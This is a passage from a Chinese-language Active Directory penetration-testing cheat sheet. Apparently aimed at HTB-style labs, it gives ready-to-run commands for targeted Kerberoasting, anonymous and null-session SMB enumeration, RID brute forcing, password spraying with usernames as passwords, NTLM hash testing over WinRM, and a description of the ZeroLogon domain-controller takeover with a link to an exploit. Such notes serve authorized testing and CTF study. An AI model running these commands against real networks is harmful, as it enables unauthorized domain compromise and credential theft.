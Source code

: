 #### TargetedKerberoast

```
python3 targetedKerberoast.py -v -d tombwatcher.htb -u 'sam' -p 'Password123!'
```

### 未知域账号

#### ZeroLogon

Netlogon 在建立安全通道时使用的 **AES-CFB8 加密模式存在缺陷**，导致攻击者可以伪造全零的初始化向量（IV）和密钥，从而绕过身份验证。**攻击者可以将域控制器的计算机账户密码重置为空**（或任意值），以域控制器身份获取域管理员权限（完全控制域），存在可利用的[payload](https://github.com/risksense/zerologon)。

#### Impacket-lookupsid

```bash
# 以来宾用户的身份进行身份验证，枚举域用户。
impacket-lookupsid anonymous@nara-security.com
```

#### NetExec

```
# 来宾身份进行共享目录枚举、rid爆破
netexec smb 192.168.152.172 -u guest -p '' --shares
netexec smb 192.168.152.172 -u guest -p '' --rid-brute

# 空登录进行共享目录枚举、rid爆破
netexec smb 192.168.152.172 -u '' -p '' --shares
netexec smb 192.168.152.172 -u '' -p '' --rid-brute

# 匿名身份进行共享目录枚举、rid爆破
netexec smb 192.168.152.172 -u 'a' -p '' --shares
netexec smb 192.168.152.172 -u 'a' -p '' --rid-brute

# 匿名身份进行用户枚举，有时候用户的description会泄露凭据，请仔细检查！
netexec smb 192.168.152.172 --users

# 使用账户名作为密码测试域账户
netexec smb 192.168.237.40 -u ./domainusers.txt -p ./domainusers.txt

# 通过winrm协议测试用户hash
netexec winrm 192.168.167.175 -u users -H hashesh
```

#### Smbclient

```
# 尝试空登录，枚举共享目录
smbclient -N -U "" -L \\\\fluffy.htb

# 尝试匿名枚举共享目录
smbclient -L //fluffy.htb/.
```
